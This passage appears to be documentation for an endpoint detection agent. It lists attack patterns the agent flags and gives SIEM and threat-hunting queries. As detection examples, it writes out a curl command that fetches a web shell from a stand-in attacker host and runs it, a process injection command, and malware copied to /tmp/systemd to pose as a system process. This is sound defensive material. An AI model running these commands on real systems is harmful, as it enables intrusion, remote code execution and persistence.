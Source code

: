 #### Container Environment
```yaml
detectors:
  behavioral:
    alert_threshold: 0.4
    # Consider container-specific expected paths
```

## Common Attack Patterns Detected

### 1. Web Shell Deployment
```bash
# Detected pattern
curl http://attacker.com/shell.php > /tmp/shell.php
chmod +x /tmp/shell.php
/tmp/shell.php
```
**Alerts Generated:** Suspicious command line (curl), executable in suspicious location

### 2. Process Injection Attack
```bash
# Detected sequence
./injector /tmp/payload.so target_pid
# Uses: ptrace() → mmap() → mprotect()
```
**Alerts Generated:** ptrace usage, suspicious process path

### 3. Persistence via System Process Impersonation
```bash
# Malicious systemd impersonation
cp malware /tmp/systemd
/tmp/systemd --system
```
**Alerts Generated:** systemd in unexpected location (5.0x risk multiplier)

### 4. Browser Exploit Payload
```bash
# Browser downloads and executes payload
# Detected in browser cache execution
```
**Alerts Generated:** Process execution from browser cache

## Integration with Security Tools

### SIEM Integration
```bash
# Export Linux-specific alerts
grep "ptrace\|systemd\|/tmp/\|/dev/shm" logs/edr-agent.log | jq '.'
```

### Threat Hunting Queries
```bash
# Find suspicious systemd processes
jq '.events[] | select(.event_type == "SecurityAlert" and .description | contains("systemd"))' data/events_*.json.gz

# Identify shell injection attempts
jq '.events[] | select(.event_type == "SecurityAlert" and .description | contains("shell"))' data/events_*.json.gz
```
